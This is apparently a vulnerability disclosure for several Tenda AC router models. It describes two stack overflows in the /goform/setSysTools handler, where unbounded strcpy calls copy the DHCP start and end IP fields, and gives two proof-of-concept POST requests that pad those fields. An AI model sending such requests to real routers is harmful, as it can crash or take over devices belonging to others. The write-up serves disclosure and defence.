




# Tenda Router Vulnerability

This vulnerability exists in  module `lanCfg` of  `/goform/setSysTools`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

On the page `/goform/setSysTools`, there are two stack overflows that allow an attacker to execute arbitrary code with a well-designed POST request, or to deny of service attack.



The  `DHCpen` is controllable and set to true.



1. Our input of `lanDhcpStartIP` and  `lanDhcpEndIP` is not limited
2. And  it will be followed by `strcpy(v49, v20);` and `strcpy (v48, v21);` to copy the input to v48 and v49 respectively, which are also unlimited in length. This causes a stack overflow at V48 and V49.

## POC

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 166
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=lanCfg&lanIP=192.168.0.1&lanMask=255.255.255.0&dhcpEn=true&lanDhcpStartIP=192.168.0.100&lanDhcpEndIP=192.168.0.200aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&lanDns1=192.168.0.1&lanDns2=
```

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 166
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=lanCfg&lanIP=192.168.0.1&lanMask=255.255.255.0&dhcpEn=true&lanDhcpStartIP=192.168.0.100aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&lanDhcpEndIP=192.168.0.200&lanDns1=192.168.0.1&lanDns2=
```

### Verify

Vulnerability demo





If the number of characters were longer, it would be enough to overflow.